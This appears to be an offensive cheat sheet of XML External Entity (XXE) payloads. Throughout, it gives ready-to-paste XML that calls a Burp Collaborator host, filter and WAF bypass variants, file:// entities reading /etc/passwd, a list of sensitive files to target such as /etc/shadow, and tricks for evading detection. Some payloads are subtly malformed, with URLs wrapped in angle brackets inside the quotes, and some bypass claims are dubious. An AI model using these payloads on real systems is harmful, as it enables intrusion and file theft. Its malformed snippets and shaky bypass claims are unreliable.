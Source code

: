### **Types of XXE Vulnerabilities**

- **Blind XXE**: No visible output, but external requests (DNS/HTTP) can be detected using tools like Burp Collaborator.
- **Reflected XXE**: The XML payload is echoed in the response.
- **Stored XXE**: Malicious XML is stored and executed later.
- **File-Based XXE**: Exploits XML parsers that handle local files (e.g., reading sensitive files like `/etc/passwd`).

---

## **Basic XXE Payloads**

### **Basic XXE (External Entity)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "<http://collaborator-url.oastify.com>">
]>
<foo>&xxe;</foo>

```

- **Purpose**: Defines an external entity `xxe`, triggering a request to your Burp Collaborator if vulnerable.

---

### **Parameter Entity Injection (Bypass Filters)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % ext SYSTEM "<http://collab-url.oastify.com>">
  %ext;
]>
<foo>1</foo>

```

- **Purpose**: Uses a parameter entity to bypass filters blocking standard entities.

---

### **Double URL Encoding (WAF Bypass)**

```xml
<!DOCTYPE foo [
  <!ENTITY % ext SYSTEM "<http://collab-url.oastify.com>">
  %25ext;
]>

```

- **Purpose**: Double encoding `%25ext;` bypasses WAFs or poorly decoded parsers.

---

### **CDATA Section (For Edge Parsers)**

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "<http://collab-url.oastify.com>">
]>
<foo><![CDATA[&xxe;]]></foo>

```

- **Purpose**: Wraps the entity call in `CDATA` to bypass parsers that treat CDATA sections differently.

---

## **XXE Exploitation with Local Files (file://)**

### **Reading Local Files Using file://**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>

```

- **Purpose**: Attempts to load a local file (`/etc/passwd`) on the system. Reveals sensitive data if successful.

---

### **Common Files to Target**

- `/etc/passwd` (Linux)
- `/etc/shadow` (Linux)
- `C:\\Windows\\System32\\drivers\\etc\\hosts` (Windows)
- `C:\\Windows\\win.ini` (Windows)

---

### **File Disclosure with Parameter Injection**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  %file;
]>
<foo></foo>

```

- **Purpose**: Uses a parameter entity (`%file;`) to load and disclose local files.

---

## **Obfuscation & Bypass Techniques**

- **HTML Encoding**: Encode `<!ENTITY` as `&lt;!ENTITY` to bypass filters.
- **Unicode Obfuscation**: Replace `SYSTEM` with `SYST%E2%80%8EM` (Unicode encoding).
- **Comments in Entity Declaration**: Use comments like `<!ENTITY<!--comment--> xxe SYSTEM ...>` to evade detection.
- **Whitespace and Line Breaks**: Add spaces or newlines to the `<!ENTITY>` declaration to bypass filters.

---

## **Tips & Advanced Techniques**

- **Monitor Burp Collaborator**: Track DNS/HTTP requests to confirm XXE exploitation.
- **Test Multiple Payloads**: Try different entity types and content types (`application/xml`, `text/xml`).
- **Invisible Output ≠ No Vulnerability**: Even without visible output, look for external calls (via Burp Collaborator).
- **Local File Disclosure**: Always check for file-based XXE in XML parsers (file uploads, SOAP, XML-RPC).

---